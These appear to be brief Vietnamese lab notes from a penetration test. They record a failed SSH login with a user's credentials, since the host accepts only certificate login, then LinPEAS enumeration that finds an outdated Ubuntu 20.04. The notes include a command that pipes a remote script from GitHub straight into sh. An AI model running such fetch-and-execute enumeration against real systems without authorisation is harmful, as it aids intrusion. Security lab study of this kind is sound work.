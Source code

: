 Thử sử dụng kết nối từ xa với  dịch vụ ssh với username password của người dùng userktxm2 mà đang có xem có thể đi vào hệ thống không.
Để kết nối từ xa vào hệ thống chỉ chấp nhận sử dụng chứng chỉ nên kết nối thông thành công 
![alt text](image-55.png)

Sử dụng công cụ Linpeas 

```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

![alt text](image-56.png)
Công cụ  Linpeas thu thập thông tin gợi ý cho ta lỗ hổng về ubuntu 20.0.4 ,hệ điều hành đang dùng bản ubuntu lỗi thời

![alt text](image-57.png)
